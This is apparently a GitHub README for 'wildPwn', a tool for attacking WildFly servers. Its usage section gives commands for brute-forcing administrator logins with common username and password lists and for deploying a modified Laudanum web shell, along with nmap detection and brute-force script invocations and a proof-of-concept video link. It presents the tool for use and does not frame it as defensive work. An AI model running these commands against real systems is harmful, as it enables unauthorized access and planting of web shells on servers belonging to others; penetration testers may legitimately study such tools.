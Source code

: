 # wildPwn - WildFly Exploitation Tool
It is a tool for WildFly. Tool can be used to brute force or shell deploy. *wildPwn.war* contains modified Laudanum Shell. *userList.txt* contains common usernames and *passList.txt* contains common passwords.

# Usage
Bruteforce
```
python wildPwn.py -m brute --target <TARGET> -user <USERNAME LIST> -pass <PASSWORD LIST> 
```

Shell Deploy
```
python wildPwn.py -m deploy --target <TARGET> --port <PORT> -u <USERNAME> -p <PASSWORD>
```

# Video
[![PoC Video](https://i.ytimg.com/vi/kTsPwA7QhLU/maxresdefault.jpg)](https://www.youtube.com/watch?v=kTsPwA7QhLU)

# Nmap Scripts
Detection
```
nmap --script wildfly-detect <TARGET>
```

Brute Force
```
nmap -p 9990 --script wildfly-brute --script-args "userdb=usernameList.txt,passdb=passList.txt,hostname=domain.com" <TARGET>
```
